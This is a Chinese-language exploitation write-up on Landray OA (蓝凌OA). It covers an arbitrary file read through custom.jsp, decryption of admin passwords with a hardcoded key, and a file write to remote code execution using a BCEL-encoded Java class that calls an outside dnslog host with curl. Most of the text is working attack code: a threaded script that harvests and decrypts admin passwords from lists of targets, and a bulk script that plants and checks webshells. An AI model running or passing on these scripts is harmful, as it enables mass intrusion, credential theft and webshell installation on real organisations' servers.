






# 蓝凌OA任意文件任意文件写入之批量上线

## 任意文件读取

&emsp;&emsp;先说一下任意文件读取，访问```/sys/ui/extend/varkind/custom.jsp```，并且POST参数为```var={“body”:{“file”:“file:///etc/passwd”}}```



&emsp;&emsp;由此可见我们已经能够读取到```/etc/passwd```文件。

## 原理

&emsp;&emsp;看一下出漏子的文件，可见未经过滤内容就直接import了var变量里的file，通过构造file协议可以造成任意文件读取。



## 管理员密码解密

&emsp;&emsp;蓝凌的后台管理员密码在```/WEB-INF/KmssConfig/admin.properties```中，虽然是AES加密，但是密钥是已知的```kmssAdmi```，所以可以通过读取那个文件然后对AES解密来获取管理员密码。

&emsp;&emsp;在这里我写了一个脚本用于批量破解，效果如下：



&emsp;&emsp;源代码：

```python
# -*- coding: utf-8 -*-

import os
import csv
import time
import requests
from threading import Lock
from concurrent.futures import ThreadPoolExecutor
from argparse import ArgumentParser

from Crypto.Cipher import DES
import base64
requests.packages.urllib3.disable_warnings()


class EncryptDate:
    def __init__(self, key):
        self.key = key
        self.length = DES.block_size
        self.aes = DES.new(self.key, DES.MODE_ECB)
        self.unpad = lambda date: date[0:-ord(date[-1])]

    def pad(self, text):
        count = len(text.encode('utf-8'))
#        print(count)
        add = self.length - (count % self.length)
 #       print(add)
        entext = text + (chr(add) * add)
  #      print(entext)
        return entext

    def decrypt(self, decrData):  # 解密函数
   #     print('正在解密密文')
        res = base64.decodebytes(decrData.encode("utf8"))
        msg = self.aes.decrypt(res).decode("utf8")
        return msg
    #    print('解密成功admin的密码为：'+msg)

cr = EncryptDate(b'kmssAdmi')

requests.packages.urllib3.disable_warnings()

class POC:
    def __init__(self):
        self.banner()
        self.args = self.parseArgs()
        self.init()
        self.urlList = self.loadURL()  # 所有目标
        self.multiRun()
        self.start = time.time()

    def banner(self):
    	pass
    def init(self):
        print("\nthread:", self.args.thread)
        print("timeout:", self.args.timeout)
        msg = ""
        if os.path.isfile(self.args.file):
            msg += "Load url file successfully\n"
        else:
            msg += f"\033[31mLoad url file {self.args.file} failed\033[0m\n"
        print(msg)
        if "failed" in msg:
            print("Init failed, Please check the environment.\n")
            os._exit(0)
        print("Init successfully")

    def parseArgs(self):
        date = time.strftime("%Y-%m-%d_%H-%M-%S", time.localtime())
        parser = ArgumentParser()
        parser.add_argument("-f", "--file", required=False, type=str, default=f"./url.txt", help=f"The url file, default is ./url.txt")
        parser.add_argument("-t", "--thread", required=False, type=int, default=32, help=f"Number of thread, default is 32")
        parser.add_argument("-T", "--timeout", required=False, type=int, default=3,  help="request timeout(default 3)")
        parser.add_argument("-o", "--output", required=False, type=str, default=date,  help="Vuln url output file, default is {date}.txt")
        return parser.parse_args()

    # 验证漏洞并导出密码
    def verify(self, url):
        repData = self.readFile(url, "/WEB-INF/KmssConfig/admin.properties")
        if "password" in repData:
            data = repData.strip()
            password = data[data.index(" = ") + 3:data.index(r"\r")]
            password = cr.decrypt(password)
            msg = f"\033[32m[+] [ Vuln ]  {url:<30}    {password}\033[0m"
            self.lock.acquire()
            try:
                self.findCount += 1
                self.vulnRULList.append([f"{url}/admin.do", password])
                print(msg)
            finally:
                self.lock.release()
        # elif "Conn" == repData:
        #     msg = f"\033[31m[!] [ Conn ]  {url}\033[0m"
        # else:
        #     msg = f"[-] [ Safe ]  {url}"
        # self.lock.acquire()
        # try:
        #     print(msg)
        # finally:
        #     self.lock.release()

    # 利用漏洞读取文件
    def readFile(self, url, filename):
        reqURL = url + "/sys/ui/extend/varkind/custom.jsp"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        postData = 'var={"body":{"file":"' + filename + '"}}'
        try:
            rep = requests.post(url=reqURL, headers=headers, data=postData, timeout=self.args.timeout, verify=False)
            fileData = rep.text
            return fileData
        except:
            return "Conn"

    # 加载url地址
    def loadURL(self):
        urlList = []
        with open(self.args.file, encoding="utf8") as f:
            for line in f.readlines():
                line = line.strip()
                if "https://" in line:
                    line = line.replace("https://", "http://")
                if "http://" not in line:
                    line = f"http://{line}"
                urlList.append(line)
        return urlList

    # 多线程运行
    def multiRun(self):
        self.findCount = 0
        self.vulnRULList = []
        self.lock = Lock()
        executor = ThreadPoolExecutor(max_workers=self.args.thread)
        executor.map(self.verify, self.urlList)

    # 输出到文件
    def output(self):
        self.outputFile = f"./output/passExport_{self.args.output}.csv"
        if not os.path.isdir(r"./output"):
            os.mkdir(r"./output")
        with open(self.outputFile, "a", encoding="gbk", newline="") as f:
            csvWrite = csv.writer(f)
            csvWrite.writerow(["URL","密码已解密）"])
            for result in self.vulnRULList:
                csvWrite.writerow(result)

    def __del__(self):
        try:
            print("\nattemptCount：\033[31m%d\033[0m   findCount：\033[32m%d\033[0m" % (len(self.urlList), self.findCount))
            self.end = time.time()
            print("Time Spent: %.2f" % (self.end - self.start))
            self.output()
            print("-" * 20, f"\nThe vulnURL has been saved in {self.outputFile}\n")
        except:
            pass

if __name__ == "__main__":
    POC()
```

## 任意文件写到getshell

&emsp;&emsp;访问```/sys/ui/extend/varkind/custom.jsp```，并且POST参数为```var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[payload]```

&emsp;&emsp;payload的格式为：

```java
<java>
<void class="com.sun.org.apache.bcel.internal.util.ClassLoader">
	<void method="loadClass">
		<string>$$BCEL$$......</string>
		<void method="newInstance"></void>
	</void>
</void>
</java>
```

&emsp;&emsp;我们首先编写一个恶意类：

```Java
import java.io.IOException;

public class exp {
	static {
		try {
			Runtime.getRuntime().exec("curl xxx.dnslog.cn");
}
		catch (IOException e){
			e.printStackTrace();}
}
}
```

&emsp;&emsp;对类进行编译：

```javac exp.java -source 1.7 -target 1.7```



&emsp;&emsp;最后对编译好的进行BCEL编码（工具地址在https://github.com/Xd-tl/BCELCode）：

```java -jar BCELCode.jar -e exp.class```

```$$BCEL$$$l$8b$I$A$A$A$A$A$A$ffePMO$c2$40$Q$7d$5b$3eZj$R$u$82$df$8a$t$81$D$i$3cB$bc$YM$8c$uF$88$9e$cb$ba$n$c5$d26$a55$fdG$9e$b9$a0$f1$e0$P$f0G$Z$a7$h$82$q$eeaf$e7$ed$7bov$e6$fb$e7$f3$L$c0$Zj$3a$U$a4T$a4$Nd$90e$uN$acW$ab$edX$ee$b8$dd$lM$E$P$Z$b2$5d$db$b5$c3s$86T$bd$f1$a8CCN$85n$60$D$GC$e9$8f$fe$Q$b9$a1$3d$V$M$faX$84$ab$a2Ro$f4$feq$3a$g6$ZL$k$FN$z$8e$e3$d6$b3$3bs$bcq$8b$bb$89$7b$d1$40$J$sCZ$c4$823$9c$d6$d7$f4$830$b0$ddqg$dd$f2$3e$f0$b8$98$cd$3a$w$b6$Y$ca$S$b7$bd$f6u$ff2$e6$c2$Pm$8f$3c$cb$a8$g$d8N$a6$x$f8$a4$P$H$a1$c5_$86$81$c5$85$8a$5d$gK$c4$3e$b5$bb$f0$9e$e9$bf$85$9e$ed$8a$bbh$3a$S$c1$d0$g9$84h$5d$ee$y$X$90$97$ca$5b$cb_$3e$e9$D$_$K$b8$b8$b2$r$8flZI$7f$9c$60$87$96$9a$i$F$yY$x$c5$3d$aa$O$v3$ca$99$e6$3b$d8$9c$$$M$fb$U$b3$SL$d1$e8$H$xj_J$B$f3$D$aa$99_$a0$f0$f4$G$ed$a6$b9$40e$$$f1$i$M$gK$91$fa$w$b5H$5cr$S$d5$90$a7$5c$82N$ed$A$VJOE9M$a2$p$f9$9f$e3_$3fk$C$f0$fa$B$A$A```

&emsp;&emsp;最后构造请求body为：

```
var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void class="com.sun.org.apache.bcel.internal.util.ClassLoader"><void method="loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$ffePMO$c2$40$Q$7d$5b$3eZj$R$u$82$df$8a$t$81$D$i$3cB$bc$YM$8c$uF$88$9e$cb$ba$n$c5$d26$a55$fdG$9e$b9$a0$f1$e0$P$f0G$Z$a7$h$82$q$eeaf$e7$ed$7bov$e6$fb$e7$f3$L$c0$Zj$3a$U$a4T$a4$Nd$90e$uN$acW$ab$edX$ee$b8$dd$lM$E$P$Z$b2$5d$db$b5$c3s$86T$bd$f1$a8CCN$85n$60$D$GC$e9$8f$fe$Q$b9$a1$3d$V$M$faX$84$ab$a2Ro$f4$feq$3a$g6$ZL$k$FN$z$8e$e3$d6$b3$3bs$bcq$8b$bb$89$7b$d1$40$J$sCZ$c4$823$9c$d6$d7$f4$830$b0$ddqg$dd$f2$3e$f0$b8$98$cd$3a$w$b6$Y$ca$S$b7$bd$f6u$ff2$e6$c2$Pm$8f$3c$cb$a8$g$d8N$a6$x$f8$a4$P$H$a1$c5_$86$81$c5$85$8a$5d$gK$c4$3e$b5$bb$f0$9e$e9$bf$85$9e$ed$8a$bbh$3a$S$c1$d0$g9$84h$5d$ee$y$X$90$97$ca$5b$cb_$3e$e9$D$_$K$b8$b8$b2$r$8flZI$7f$9c$60$87$96$9a$i$F$yY$x$c5$3d$aa$O$v3$ca$99$e6$3b$d8$9c$$$M$fb$U$b3$SL$d1$e8$H$xj_J$B$f3$D$aa$99_$a0$f0$f4$G$ed$a6$b9$40e$$$f1$i$M$gK$91$fa$w$b5H$5cr$S$d5$90$a7$5c$82N$ed$A$VJOE9M$a2$p$f9$9f$e3_$3fk$C$f0$fa$B$A$A</string><void method="newInstance"></void></void></void></java>
```

&emsp;&emsp;dnslog成功接收到请求。

结果图：






最后放上批量利用脚本：

```python
# -*- coding: utf-8 -*

import requests
import getopt
import datetime
import sys
import threading
import os
import urllib3
import time
from colorama import init, Fore
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
init(autoreset=False)

lock = threading.Lock()
global result_file_path
global proxies_judge
loop_name = ''

def exploit(url):
    head = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36'
    ,"Content-Type": "application/x-www-form-urlencoded"}
    payload = "/sys/ui/extend/varkind/custom.jsp"

    data = 'var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void class="com.sun.org.apache.bcel.internal.util.ClassLoader"><void method="loadClass"><string>【Your Payload】</string><void method="newInstance"></void></void></void></java>' # 【Your Payload 处填写你的payload】


    exp = url + payload
    try:
        re = requests.post(exp,data=data,headers=head,verify=False,timeout=5)

        verify_url = url + "/webshell.jsp" # 这里填写你webshell的名字

        time.sleep(1)
        re = requests.get(verify_url,headers=head,timeout=5) ## 这里做验证，特征改成你自己的
        if re.status_code == 200 and 'webshell' in re.text:
            msg = "Webshell已经成功写入！"+ verify_url
            judge = 1
            output_to_file(msg)
        else:
            msg = 'Webshell写入失败！'+ verify_url
            judge = 2
    except:
        msg = 'error! 目标路径无法访问'
        judge = 3
    output(msg,judge)

def output_to_file(msg):
    '''
        输出到文件
    '''
    global result_file_path
    f = open(result_file_path,'a')
    f.write(msg+'\n')
    f.close()

def output(msg,judge=0):
    lock.acquire()
    try:
        now_time = datetime.datetime.now().strftime('%H:%M:%S')
        now_time = Fore.LIGHTBLUE_EX + '['+now_time+'] ' + Fore.RESET
        if judge == 0:
            print(now_time + msg )
        elif judge == 1: # 输出成功信息
            print(now_time + Fore.LIGHTGREEN_EX + '[+] ' + msg + Fore.RESET)
        elif judge == 2: # 输出失败信息
            print(now_time + Fore.LIGHTYELLOW_EX + '[-] ' + msg + Fore.RESET)
        elif judge == 3: # 输出错误信息
            print(now_time + Fore.LIGHTRED_EX +'[-] ' + msg + Fore.RESET)
    finally:
        lock.release()

def help():
    '''
        帮助文档
    '''
    print("""
    -h --help                   帮助文档
    -u --url                    目标url
    -f --target_file            目标地址的文件
    -r --resutl_file            输出的信息文件地址（默认为resutl.txt）
    -t --thread_num             多线程数量（默认50）
    -p --proxies                是否开启代理,默认不开启，输入则开启，一般用于brup抓测试
eg：
    python3 poc模版.py -u http://www.xxx.com
    python3 poc模版.py -f target.txt
    python3 poc模版.py -f target.txt -r result.txt
    python3 poc模版.py -f target.txt -r result.txt -t 100
    """)

def poc_head():
    pass
def main():
    global proxies_judge
    global result_file_path
    result_file_path = 'result.txt'
    target_num = 50
    target_file_path = ''
    url = ''
    msg = []
    proxies_judge = False

    poc_head()

    try:
        opts, args = getopt.getopt(sys.argv[1:],
        "hf:r:t:u:p",
        ["help","target_file=","result_file=","thread_num=","url=","--proxies"])
    except getopt.GetoptError as err:
        print(str(err))
        help()

    # 从opts中读取数据，o为参数,a为参数后带的值
    for o,a in opts:
        if o in ['-h','--help']:
            help()
        elif o in ['-u','--url']:
            url = a
        elif o in ['-f','--target_file']:
            target_file_path = a
            try:
                f = open(target_file_path,'r')
                msg = f.read().split('\n')
            except:
                output('目标文件路径错误！' , 3)
        elif o in ['-r','--result']:
            result_file_path = a
        elif o in ['-t',"--thread_num"]:
            target_num = int(a)
        elif o in ['-p',"--proxies"]:
            proxies_judge = True

    i = 0
    if url == '' and len(msg) != 0:
        while True:
            if threading.active_count()-1 < target_num and i < len(msg):
                t = threading.Thread(target=exploit,args=(msg[i],))
                t.start()
                i+=1
                output_msg = '第'+str(i)+'个目标开始检查，还有'+str(len(msg)-i)+'个目标待检查！'
                output(output_msg)
            if i >= len(msg) and threading.active_count() == 1:
                f = open(result_file_path,'r')
                num = len(f.readlines())
                output('finish! 共扫描'+str(len(msg))+'个网站，发现漏洞'+str(num)+'个！')
                break
            elif i>= len(msg) and threading.active_count() > 1:
                output('正在检测最后'+str(threading.active_count()-1)+'个目标，请稍等...')
                time.sleep(5)
        os.rename(result_file_path,result_file_path+str(len(f.readlines())))
    elif url != '' and len(msg) == 0:
        exploit(url)

if __name__ == '__main__':
    main()
```